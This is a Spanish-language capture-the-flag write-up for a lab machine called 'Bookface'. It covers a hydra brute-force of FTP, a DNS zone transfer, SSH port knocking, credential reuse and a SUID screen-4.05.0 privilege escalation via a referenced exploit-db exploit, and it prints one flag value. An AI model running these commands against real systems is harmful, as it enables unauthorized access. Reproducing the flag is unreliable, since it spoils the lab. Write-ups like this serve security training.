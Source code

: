 # Bookface
Máquina interesante, la clave para resolverla es centrarte en los servicios mas comunes en busca de fallos
## Initial Scan

Tenemos abiertos casi todos los puertos, de hecho todos menos el ssh que esta filtrado

## Enum
```
Jerry is a new developer and has made a few mistakes!
```
Parece un user vamos a testarlo en los principales servicios ftp,http o smb

### FTP
```
hydra -l jerry -P /home/pj/rockyou.txt ftp://10.10.164.44 -t 64
```
Dentro tenemos
```
dr-xr-xr-x    2 1001     1001         4096 Feb 23  2019 .
dr-xr-xr-x    2 1001     1001         4096 Feb 23  2019 ..
-rw-r--r--    1 1001     1001          220 Feb 23  2019 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 23  2019 .bashrc
-rw-r--r--    1 1001     1001          655 Feb 23  2019 .profile
-rw-------    1 1001     1001          608 Feb 23  2019 .viminfo
-rwxr-xr-x    1 0        0              33 Feb 23  2019 flag1
-rw-rw-r--    1 1001     1001          141 Feb 23  2019 note
```
En note tambien tenemos información importante
```
Jerry, I finally got a chance to update our internal social media platform (bookface.com).
```
Podemos checkear esta URL en el servidor DNS o conectarnos al HTTP mediante esa direccion modificanfo el /etc/hosts
### DNS
Checkeamos la URL
```
 dig axfr bookface.com @IP
```
Y obtenemos lo siguiente
```
bookface.com.		10800	IN	TXT	"Ports: 6786 9893 8748 3443 - Who cares about order tho right?"
bookface.com.		10800	IN	TXT	"Flag2:a17f17ba86d8271da60ed8436667f412"
```
### SSH
Lo primero es conseguir abrir el puerto
```
knock 10.10.164.44 8748 9893 6786 3443
```
Una vez abierto podemos checkear reutilizacion de creds, cosa que ocurre

Una vez dentro la flag 3 esta en /home

## Privesc

Mirando los SUID encontramos este
```
/bin/screen-4.5.0/screen-4.05.0
```
Para el cual existe un exploit bien conocido
```
https://www.exploit-db.com/exploits/41154
```
Pasamos el exploit a la máquina usando un servidor HTTP de Python y ya estaría

# Analisís de la intrusión
### Bad password police
Las credenciales del usuario Jerrie estan presentes en diccionarios comunes lo que nos permite lanzar un ataque de fuerza bruta exitosa
### Reutilización de credenciales
Las creds de Jerries para el FTP y el SSH son las mismas, lo que permite que obteniendo la credencial de un servicio tomemos el servicio entero
### screen-4.05.0 SUID
Existe una vulnerabilidad en este servicio que permite escalar privilegios mediante un exploit
# Solucione
### screen-4.05.0 SUID
Existe un parche en la siguiente version que remedia el fallo
